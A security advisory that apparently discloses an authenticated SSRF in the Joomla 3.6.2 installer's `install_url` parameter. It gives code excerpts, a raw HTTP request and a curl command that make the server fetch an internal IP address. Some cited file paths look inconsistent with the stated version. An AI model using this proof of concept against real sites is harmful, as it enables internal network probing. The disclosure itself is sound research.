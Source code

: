 # SSRF vulnerability in `_getPackageFromUrl` Function of `install.php` File (Joomla 3.6.2 version)

## 0x01 Affected version

vendor: https://github.com/joomla/joomla-cms

version: 3.6.2

php version: 7.x

## 0x02 Vulnerability description

A Server-Side Request Forgery (SSRF) in `_getPackageFromUrl` function of Joomla 3.6.2 allows remote attackers to force the application to make arbitrary requests via injection of arbitrary URLs into the `install_url` parameter. We should note that the vulnerability requires authentication before it can be triggered.



The vulnerable code is located in the `_getPackageFromUrl()` function in the `administrator/components/com_installer/models/install.php` file. This function is called in the file `system/public/class/web/file.php`. Because the function does not perform sufficient checksumming on the `install_url` parameter, the taint is introduced from the `$url` variable into the tainted function `curl_exec` at the file `libraries/src/Http/Transport/CurlTransport.php`, and after the `curl_exec` function is executed it sends a request to the URL specified by the `install_url` parameter, eventually leading to an SSRF vulnerability.



Function call stack information related to the SSRF vulnerability.

```php
administrator/components/com_installer/models/install.php $package = $this->_getPackageFromUrl();

administrator/components/com_installer/models/install.php $p_file = JInstallerHelper::downloadPackage($url);

libraries/src/Installer/InstallerHelper.php downloadPackage

libraries/src/Http/Http.php get

libraries/src/Http/Transport/CurlTransport.php $options[CURLOPT_URL] = (string) $uri;

$content = curl_exec($ch); // the key code
```



Code for the location of the tainted inflow

file path: `administrator/components/com_installer/models/install.php`

```PHP
	protected function _getPackageFromUrl()
	{
		$input = JFactory::getApplication()->input;

		// Get the URL of the package to install.
		$url = $input->getString('install_url');
    ...
		// Download the package at the URL given.
		$p_file = JInstallerHelper::downloadPackage($url);
    ...
  }
    
```



The location of the code that ultimately triggers the vulnerability

file path:`libraries/src/Http/Transport/CurlTransport.php`

```PHP
	public function request($method, Uri $uri, $data = null, array $headers = null, $timeout = null, $userAgent = null)
	{
		// Setup the cURL handle.
		$ch = curl_init();
    
		$options = array();
    ...
		// Set the cURL options.
		curl_setopt_array($ch, $options);

		// Execute the request and close the connection.
		$content = curl_exec($ch);
    ...
  }
    
```



Because the `install_url` parameter is unrestricted, it is also possible to use the server side to send requests, such as probing intranet web services. The corresponding PoC is as follows:



```
POST /joomla/administrator/index.php?option=com_installer&view=install HTTP/1.1
Host: 172.16.119.147
Content-Length: 1103
Cache-Control: max-age=0  
Upgrade-Insecure-Requests: 1
Origin: http://172.16.119.147
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://172.16.119.147/joomla/administrator/index.php?option=com_installer 
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: phpbb3_2gfmo_u=2; phpbb3_2gfmo_k=ihvyjpdjg636ce09; phpbb3_2gfmo_sid=6b0b29691a714915fc5fc32e9eac4f59; phpbb3_f3tlt_u=2; phpbb3_f3tlt_k=b4060b6e677d8bcc; phpbb3_f3tlt_sid=fb30c1894184e7a1d238c8b28a2e86f7; my_wikiUserName=Admin; my_wiki_session=jattk79nu3qve3ktikp16lr66s4bngt7; f80d7dddb61ce9ba3aee0802f4d1b376=ghd4ggm02o5g9c6fnnqdfrunmf; 54e7d701daf706e028b5135c2ab6049b=04l38uemrl4jht6f1mti2p40f3 
Connection: close

install_package=&max_upload_size=2097152&return=&return=99341813a8ce4b141b765ffbf23b0148&install_directory=/var/www/html/joomla/tmp&install_url=http%3A%2F%2F172.16.119.1%2Ffuzz&installtype=url&task=install.install&99341813a8ce4b141b765ffbf23b0148=1
```

Examples of triggered vulnerabilities

![image-20230720160518673](./assets/image-20230720160518673.png)

You can also use the following curl command to verify the vulnerability. (Note that you need to update the cookie information for authentication.)

```
curl -i -s -k -X $'POST' \
    -H $'Host: 172.16.119.147' -H $'Content-Length: 1103' -H $'Cache-Control: max-age=0' -H $'Upgrade-Insecure-Requests: 1' -H $'Origin: http://172.16.119.147' -H $'Content-Type: multipart/form-data; boundary=----WebKitFormBoundarylWcDD3rp8TQrKOBi' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.199 Safari/537.36' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' -H $'Referer: http://172.16.119.147/joomla/administrator/index.php?option=com_installer&view=install' -H $'Accept-Encoding: gzip, deflate' -H $'Accept-Language: zh-CN,zh;q=0.9' -H $'x-custom-ip-authorization: 127.0.0.1' -H $'Connection: close' \
    -b $'54e7d701daf706e028b5135c2ab6049b=femqhcdhgcnkouua0957s2o8co' \
    --data-binary $'------WebKitFormBoundarylWcDD3rp8TQrKOBi\x0d\x0aContent-Disposition: form-data; name=\"install_package\"; filename=\"\"\x0d\x0aContent-Type: application/octet-stream\x0d\x0a\x0d\x0a\x0d\x0a------WebKitFormBoundarylWcDD3rp8TQrKOBi\x0d\x0aContent-Disposition: form-data; name=\"max_upload_size\"\x0d\x0a\x0d\x0a2097152\x0d\x0a------WebKitFormBoundarylWcDD3rp8TQrKOBi\x0d\x0aContent-Disposition: form-data; name=\"return\"\x0d\x0a\x0d\x0a\x0d\x0a------WebKitFormBoundarylWcDD3rp8TQrKOBi\x0d\x0aContent-Disposition: form-data; name=\"return\"\x0d\x0a\x0d\x0a54cb1544eb9dff9afa7a32034fff39d2\x0d\x0a------WebKitFormBoundarylWcDD3rp8TQrKOBi\x0d\x0aContent-Disposition: form-data; name=\"install_directory\"\x0d\x0a\x0d\x0a/var/www/html/joomla/tmp\x0d\x0a------WebKitFormBoundarylWcDD3rp8TQrKOBi\x0d\x0aContent-Disposition: form-data; name=\"install_url\"\x0d\x0a\x0d\x0ahttp://172.16.119.1/fuzz\x0d\x0a------WebKitFormBoundarylWcDD3rp8TQrKOBi\x0d\x0aContent-Disposition: form-data; name=\"installtype\"\x0d\x0a\x0d\x0aurl\x0d\x0a------WebKitFormBoundarylWcDD3rp8TQrKOBi\x0d\x0aContent-Disposition: form-data; name=\"task\"\x0d\x0a\x0d\x0ainstall.install\x0d\x0a------WebKitFormBoundarylWcDD3rp8TQrKOBi\x0d\x0aContent-Disposition: form-data; name=\"54cb1544eb9dff9afa7a32034fff39d2\"\x0d\x0a\x0d\x0a1\x0d\x0a------WebKitFormBoundarylWcDD3rp8TQrKOBi--\x0d\x0a' \
    $'http://172.16.119.147/joomla/administrator/index.php?option=com_installer&view=install'
```



## 0x03 Acknowledgement

z3

